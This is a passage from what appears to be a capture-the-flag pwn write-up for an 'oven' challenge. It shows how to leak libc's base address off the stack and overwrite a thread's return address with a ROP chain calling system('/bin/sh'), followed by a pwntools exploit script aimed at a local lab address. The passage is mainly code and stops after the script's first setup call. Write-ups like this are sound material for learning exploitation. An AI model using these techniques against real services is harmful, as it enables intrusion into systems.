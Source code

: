 ### Leak libc's address
- To leak the libc address, the food's cooking time from the previous step is crucial.
- All you have to do is observe the stack, find the libc address to leak, and leak it.
<br />

```python
insertSpecial(0, b'A'*0x38)
r.recvuntil(b'A'*0x38)
libc_base = u64(r.recvn(6) + b'\x00'*2) - 0x11c5c1
print(hex(libc_base))
```
<br />

### Overwriting RA of oven_thread
- Now that we know both the libc address and oven_thread's return address.
- If we leak libc's address from above of RA, then we can overwrite RA at once.
- I attempted to use two ovens to increase the probability of getting the libc address, but it didn't work well.
<br />

```python
for i in range(0, 12):
    insertSpecial(0, b'\x00')
pop_rdi = libc_base + 0x10f75b
system = libc_base + 0x58740
ret = libc_base + 0x2882f
insertSpecial(0, b'/bin/sh\x00' + p64(pop_rdi) + p64(tls_addr - 352 - 80 * 26) + p64(ret)  + p64(system))
```
<br />

## Ex code

```python
from pwn import *
import time

context.log_level = 'debug'

r = remote('172.17.0.2', '8798')

def newOven(oven_name):
    r.sendlineafter(b'option: ', b'0')
    r.sendlineafter(b'name: ', oven_name)

def selectOven(oven_num):
    r.sendlineafter(b'option: ', str(oven_num).encode())

def insertFood(food_num, cook_time):
    r.sendlineafter(b'option: ', b'1')
    r.sendlineafter(b'> ', str(food_num).encode())
    r.sendlineafter(b'(seconds): ', str(cook_time).encode())

def insertSpecial(cook_time, food_name):
    insertFood(5, cook_time)
    r.sendafter(b'food: ', food_name)

def deleteFood(cook_num):
    r.sendlineafter(b'option: ', b'2')
    r.sendlineafter(b'> ', str(cook_num).encode())


#make and select oven
newOven(b'1')
```
